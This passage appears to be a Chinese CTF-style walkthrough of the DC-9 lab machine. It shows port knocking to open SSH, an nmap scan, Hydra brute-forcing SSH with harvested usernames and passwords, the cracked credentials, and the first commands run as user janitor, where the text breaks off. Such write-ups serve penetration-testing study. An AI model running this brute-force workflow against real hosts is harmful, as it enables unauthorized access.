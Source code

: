     分析一下配置文件：依次使用`TCP`访问`7469,8475,9842` 后（不超过25秒），则执行`[openSSH]` 区块的`command` ，用于允许来源IP（`%IP%`）的TCP连接通过22端口（SSH端口）
    
3. 分析完后，接下来就是进行敲门
    - 使用`Kocked` 命令敲门
        
        ```python
        knock 192.168.75.180 7469 8475 9842
        ```
        
    - 然后再使用`nmap`扫描看看
        
        ```python
        nmap -sT -min-rate 10000 -p- 192.168.75.180
        Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 14:09 CST
        Nmap scan report for 192.168.75.180
        Host is up (0.00040s latency).
        Not shown: 65533 closed tcp ports (conn-refused)
        PORT   STATE SERVICE
        22/tcp open  ssh
        80/tcp open  http
        MAC Address: 00:0C:29:41:E1:8F (VMware)
        ```
        
        这下`SSH`端口就打开了
        

## 爆破SSH

1. 将`UserDetails`表的`username`和`password`字段分别保存
    
    ```python
    hydra -L username -P password -vV -e ns 192.168.75.180 ssh
    ```
    
    爆破出个三用户的账号密码
    
    ```python
    [22][ssh] host: 192.168.75.180   login: janitor   password: Ilovepeepee
    [22][ssh] host: 192.168.75.180   login: chandlerb   password: UrAG0D!
    [22][ssh] host: 192.168.75.180   login: joeyt   password: Passw0rd
    ```
    

## 提权

1. janitor
    
    ```python
    janitor@dc-9:~$ whoami
    janitor                                                                                                                                                                                                           
    janitor@dc-9:~$ id                                                                                                                                                                                                
    uid=1016(janitor) gid=1016(janitor) groups=1016(janitor)                                                                                                                                                          
    janitor@dc-9:~$ uname -a
    Linux dc-9 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64 GNU/Linux   
    ```
    